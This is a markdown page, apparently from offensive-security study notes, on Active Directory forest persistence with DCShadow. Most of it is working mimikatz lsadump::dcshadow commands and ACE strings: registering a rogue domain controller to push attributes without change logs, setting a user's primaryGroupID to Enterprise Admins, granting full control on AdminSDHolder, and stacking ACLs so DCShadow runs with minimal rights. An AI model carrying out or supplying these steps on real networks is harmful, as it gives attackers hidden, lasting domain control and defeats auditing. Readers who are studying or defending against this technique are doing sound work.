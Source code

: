 ```yaml
---
title: Forest Persistence
category: Active Directory
order: 7
---
```


We are going to discuss some ways to do a persistence in a forest root.

# DCShadow

DCShadow temporaly registers a new DC in the target domain and uses it to push attributes like `SID History`, `SPNs` and more over on the specified object without leaving the cange logs for modified object.

The new domain controller is registered by modifying the configuration container, SPNs of an exisiting computer object and couple of RPC services.

Due to the attributes are changed from a domain dontroller, **there are no change logs on the actual DC for the target object**.

By default, domain administrative privileges are required to use DCShadow.

To execute this persistence we need to use two isntances of mimikatz. The first one starts RPC servers with SYSTEM privileges and specify attributes to be modified:

```powershell
!+
!processtoken
lsadump::dcshadow /object:root1user /attribute:Description /value="Hello from DCShadow"
```
And the second one with enough privileges, such as DA, will push the values:

```powershell
lsadump::dcshadow /push
```

> **Note**: DCShadow can be used with minimal permissions by modifyng ACLs, `Nishang` has a script to set this permissions to a user.
>
> `Set-DCShadowPermissions -FakeDC machine-user01 -SAMAccountName root1user -Username user01 -Verbose`

## Set Primary Group ID to Enterprise Admin

Now that we have been discovered how to overwrite attributes of users, we can change the group id of a user to the id of the enterprise administrators or domain admins.

```powershell
lsadump::dcshadow /object:user01 /attribute:primaryGroupID /value:519
```
> **Note**: This makes noise, because every one who looks `net group "Enterpise Admins" /domain` will see that the user user01 is a member.

## Modify ntSecurityDescriptor for AdminSDHolder

We can modify the `ntSecurityDescriptor` for AdminSDHolder to add full control for a user.

```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminADHolder,CN=System,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
We just need to append a full control ACE from above DA with our users SID.

```powershell
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>

Modified ACL:

ORIGINAL ACL + FULL CONTROL FOR OUR USER
....(A;;CCDCLCSWRPWPLOCRSDRCWDWO;;;S-1-5-21-560323961-2315414123-15432421423-1323)
```

> **Note**: We just need to add our SID to the SY/BA/DA ACE result. To see the SID we can use:
>
> `Get-NetUser user01`

## Shadowception

We can even run DCShadow from DCShadow. To do that task we will add the following ACLs:

```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
> **Note** We can use `/stack` to stack multiple ACL.

### Domain Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;<USER SID>)
(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;<USER SID>)
(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshadow /stack /object:DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Attacker Computer Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=machine01,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;;WP;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshadow /stack /object:machine01$ /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Target User Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=user01,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;;WP;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshadow /stack /object:targetuser01 /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

### Sites Configuration Object

* List ACL:
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Sites,CN=Configuration,DC=corp,DC=local")).psbase.ObjectSecurity.sddl
```
* Append the following ACE:
```
(A;CI;CCDC;;;<USER SID>)
```
* Stack the ACL
```
lsadump::dcshadow /stack /object:CN=Sites,CN=Configuration,DC=corp,DC=local /attribute:ntSecurityDescriptor /value:<MODIFIED ACL>
```

Finally we just start the server:

```
lsadump::dcshadow
```

And on the other session with DA privileges:

```
lsadump::dcshadow /push
```